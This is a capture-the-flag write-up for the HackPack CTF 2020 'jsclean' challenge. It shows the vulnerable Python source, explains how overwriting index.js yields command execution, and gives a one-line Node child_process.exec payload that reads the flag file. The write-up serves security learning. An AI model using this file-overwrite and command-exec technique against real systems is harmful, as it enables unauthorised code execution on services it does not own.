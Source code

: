 ```yaml
---
layout: post
title: HackPack CTF 2020 - jsclean 
---
```


> JavaScript Cleaning Service: Transform ugly JavaScript files to pretty clean JavaScript files!
>
> nc cha.hackpack.club:41718
>
> Files: [repo][repo]

## Analysis

In this challenge we can see the source code of the service running on target system.

{% highlight python %}
import os
import sys
import subprocess


def main(argv):
    print("Welcome To JavaScript Cleaner")
    js_name = input("Enter Js File Name To Clean: ")
    code = input("Submit valid JavaScript Code: ")

    js_name = os.path.basename(js_name) # No Directory Traversal for you

    if not ".js" in js_name:
        print("No a Js File")
        return

    with open(js_name,'w') as fin:
        fin.write(code)

    p = subprocess.run(['/usr/bin/nodejs','index.js','-f',js_name],stdout=subprocess.PIPE);
    print(p.stdout.decode('utf-8'))

main(sys.argv)
{% endhighlight %}

Service accepts javascript filename and content, then it saved under specified filename. Once thats done it executes `index.js` by passing our file as one of the arguments.

We can easily exploit this service by overwriting index.js file with our content and executing any command we want.

We pass as filename: `index.js`

And javascript content that will execute commands:

{% highlight javascript %}
require("child_process").exec("cat flag.txt", function(error, stdout, stderr){console.log(stdout);});
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/hackpackctf/jsclean
